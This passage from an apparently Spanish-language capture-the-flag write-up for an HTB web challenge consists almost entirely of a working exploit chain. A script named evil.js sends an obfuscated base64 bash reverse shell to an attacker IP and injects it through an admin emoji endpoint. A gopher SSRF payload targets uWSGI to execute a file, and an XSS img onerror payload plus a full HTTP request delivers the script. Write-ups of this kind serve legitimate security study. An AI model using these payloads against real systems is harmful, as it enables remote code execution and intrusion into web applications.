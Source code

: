 `evil.js`

{% highlight  javascript %}

//evil.js

function post(url, data = {}){
  fetch(url, {
    'method': 'POST',
    'credentials' : 'include',
    'headers': {
      'Content-Type' : 'application/json'
    },
    'body' : JSON.stringify(data)
  });
}

function poison_emoji(){
  reverse_shell = 'import os; os.system("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuNTAvNTk5MiAwPiYxCg==|base64 -d | bash")';
  post('/api/admin/emoji-pack/update', { emojiData : reverse_shell });
}

function uWSGI_SSRF(){
  gopher_payload = 'gopher:///127.0.0.1:5000/_%00%DA%00%00%0E%00REQUEST_METHOD%03%00GET%09%00HTTP_HOST%0E%00127.0.0.1%3A5000%09%00PATH_INFO%01%00/%0B%00SERVER_NAME%0E%00127.0.0.1%3A5000%0F%00SERVER_PROTOCOL%08%00HTTP/1.1%0C%00QUERY_STRING%00%00%0B%00SCRIPT_NAME%06%00/pwned%0A%00UWSGI_FILE%22%00/app/application/static/emoji.json%0B%00REQUEST_URI%00%00';
  post('/api/admin/emoji-pack/import', { emojiURL : gopher_payload });
}

function client_Side_Attack(){
  poison_emoji();
  uWSGI_SSRF();
}

client_Side_Attack();

{% endhighlight %}


Ahora creamos una carta con el XSS que incluya nuestro `evil.js`, algo así.

{% highlight html %}
<img src="foo" onerror="evil_js = document.createElement('script'); evil_js.src = 'http://192.168.0.50:8082/evil.js'; document.body.appendChild(evil_js);">

{% endhighlight %}

_HTTP Request_:
{% highlight text %}
POST /api/create HTTP/1.1
Host: emoji.htb:1337
Content-Length: 204
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://emoji.htb:1337
Referer: http://emoji.htb:1337/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,es-AR;q=0.8,es;q=0.7
Cookie: session=6e58f080-ab17-4291-b29b-cb3e4d3f2f54
Connection: close

{"userLetter":"Hi admin!",
"userEmoji":"<img src=\"foo\" onerror=\"evil_js = document.createElement('script'); evil_js.src = 'http://192.168.0.50:8082/evil.js'; document.body.appendChild(evil_js);\">"
}

{% endhighlight %}
